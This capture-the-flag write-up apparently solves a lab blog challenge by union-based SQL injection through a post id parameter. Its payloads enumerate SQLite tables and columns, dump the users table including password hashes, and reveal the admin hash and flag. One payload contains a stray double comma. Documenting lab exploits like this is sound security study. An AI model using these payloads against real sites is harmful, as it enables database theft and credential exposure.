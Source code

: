 Challenge Description:
<br>This Junior developper decided to code his own blog.
Prove him that he still has a lot to learn and that security is a big priority when you deal with a website that has a database !

The flag follows this format:
FSIIECTF{administrator's hash}
Example: if the administrator's hash is `721a9b52bfceacc503c056e3b9b93cfa`, then the flag will be `FSIIECTF{721a9b52bfceacc503c056e3b9b93cfa}`.
No external tool other than your browser is needed for this challenge.
The use of automated tools such as sqlmap is STRICTLY PROHIBITED.

## Exploration
```http://192.168.59.128/post.php?id=1```
<br> This type of webpages handling can lead to blind sql injection

## Solution
Finding the tables in the database
Payload: ```2 UNION SELECT null,,null,null,GROUP_CONCAT(name) from sqlite_master```

![image](https://github.com/user-attachments/assets/e72d4afa-e9fd-4e29-8cba-0b9a5727be2f)

List all columns in ```users``` table.
Payload: ```2 UNION SELECT null,null,null,GROUP_CONCAT(name) from pragma_table_info('users')```

![image](https://github.com/user-attachments/assets/0400ece3-7dfc-403c-a796-b8d8667882a4)

List all data row from ```users``` table.
Payload: ```2 UNION SELECT null, null, null, GROUP_CONCAT(id || ':' || username || ':' || password || ':' || email || ':' || role) FROM users```

![image](https://github.com/user-attachments/assets/fb197c36-2d98-4f60-8854-00ea424ba181)

Admin hash: bf4776ba55b41ae54b00fc2fee111562
<br>Flag : FSIIECTF{bf4776ba55b41ae54b00fc2fee111562}
